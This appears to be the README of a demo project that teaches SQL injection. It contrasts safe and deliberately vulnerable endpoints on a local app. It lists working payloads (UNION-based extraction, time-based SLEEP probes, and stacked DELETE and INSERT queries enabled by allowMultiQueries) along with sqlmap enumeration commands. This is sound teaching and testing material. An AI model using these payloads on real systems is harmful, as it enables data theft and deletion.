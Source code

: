 # Security Testing
## Update
- http://localhost:8086/security/update?id=c-1
## Single Query
- http://localhost:8086/security/query/single?id=c-1
## List Query
- http://localhost:8086/security/query/list?title=DEV

# Un-security Testing
## Update
- http://localhost:8086/un-security/update?id=c-1';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-8','Roc','QA')-- ;[allowMultiQueries=true]
## Single Query
- http://localhost:8086/un-security/query/single?id=c-1' AND 'a'='a
- http://localhost:8086/un-security/query/single?id=c-1' OR 1=1 LIMIT 3,1-- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT * FROM PRODUCT limit 3,1-- ;
- http://localhost:8086/un-security/query/single?id=NOO' UNION SELECT DATABASE(), VERSION(), USER()-- ;
- http://localhost:8086/un-security/query/single?id=NOO' OR IF(1>0, SLEEP(10), 1)-- ;
## List Query
- http://localhost:8086/un-security/query/list?title=DEV' OR 'a'='a
- http://localhost:8086/un-security/query/list?title=DEV' ORDER BY 3 -- ;
- http://localhost:8086/un-security/query/list?title=NOO' LIMIT 0,100 -- ;
- http://localhost:8086/un-security/query/list?title=DEV' UNION SELECT * FROM PRODUCT-- ;
- http://localhost:8086/un-security/query/list?title=DEV';DELETE FROM CUSTOMER-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO CUSTOMER(ID, NAME, TITLE) VALUES ('c-7','Ady','QA')-- ;[allowMultiQueries=true]
- http://localhost:8086/un-security/query/list?title=DEV';INSERT INTO PRODUCT(ID, NAME, TITLE) VALUES ('p-7','Vivo X200','Phone')-- ;[allowMultiQueries=true]

# How to execute multiple queries in a single statement in java
- spring.datasource.url=jdbc:mysql://host/database?allowMultiQueries=true

# SQLMAP
## Check if there is sql injection
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1
## Query users
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --users
## Query databases
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 --dbs
## Query tables of a database
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> --tables
## Query columns of a table
- sqlmap -u http://localhost:8086/un-security/query/single?id=c-1 -D <database> -T <table> --columns
